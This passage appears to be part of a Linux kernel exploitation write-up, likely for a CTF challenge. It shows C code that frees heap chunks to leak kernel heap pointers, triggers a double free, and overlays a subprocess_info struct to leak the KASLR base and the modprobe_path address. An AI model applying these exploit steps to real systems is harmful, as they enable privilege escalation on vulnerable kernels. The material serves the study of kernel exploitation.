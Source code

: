 To know which index is adjacent next to the chunk of selected index, we need to free some chunks to get fd populated and then read the rest of `ptrArr` check if there’s any kernel heap leak.

```c
  // populate fd in freed chunk
  for (int i = 0; i < selected_idx; i++)
    del(i);
...
  // free next adjacent chunk
...
  // find adjacent chunk by viewing the content, if it contains
  // a heap fd leak, then this must be the next adjacent chunk
  // !!! might fail couple of times, so restart from the very
  // begining
  int pos;
  for (pos = selected_idx + 1; pos < SPRAY; pos++) {
    view(pos, 0x80, buffer);
    // if the chunk is free fd should be populated
    // kernel heap MSB should contains 0xFF
    if (a64[8] >> 56 == 0xff) {
      break;
    }
  }
  if (pos == SPRAY) {
    puts("[!] failed to get adjacent chunk");
    exit(EXIT_FAILURE);
  }

  printf("[o] adjacent chunk 7 <--> %d\n", pos);
```

Trigger a double free, then add another data. The next allocation of kmalloc-128 should live on top of our last created chunk. I choose `subprocess_info` struct to get a leak of kernel base and `modprobe_path` pointer.

```c
// *double free*
del(pos);

memset(buffer, 0, sizeof(data_s));
int idx = add(buffer);

// populate a kmalloc-128 struct (subprocess_info)
// which should live on top of our last created chunk
socket(22, AF_INET, 0);

view(idx, 0x80, buffer);

const uintptr_t kaslr = a64[3] - 0x7e470;
const uintptr_t modprobe_path = a64[5];
printf("[o] kaslr %p\n", (void *)kaslr);
printf("[o] modprobe_path %p\n", (void *)modprobe_path);
```
